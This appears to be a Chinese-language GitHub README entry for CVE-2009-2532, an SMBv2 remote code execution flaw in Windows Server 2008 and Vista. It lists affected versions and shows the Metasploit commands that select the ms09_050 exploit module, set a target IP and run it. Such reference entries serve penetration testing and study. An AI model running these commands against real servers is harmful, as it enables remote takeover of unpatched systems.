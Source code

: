 ### CVE-2009-2532

#### 描述

无法正确处理SMB多协议协商请求数据包中的命令值，这使远程攻击者可以通过精心制作的SMBv2执行任意代码 数据包发送到服务器服务

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | X64/X86          |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Vista       |                  |         |        |                    |

#### 利用方式

利用msf 测试系统windows server 2008 sp2 x86

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.1.13 #目标IP
run
```

![image-20200823134421895](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2009-2532_win2008_x86_msf.png?raw=true)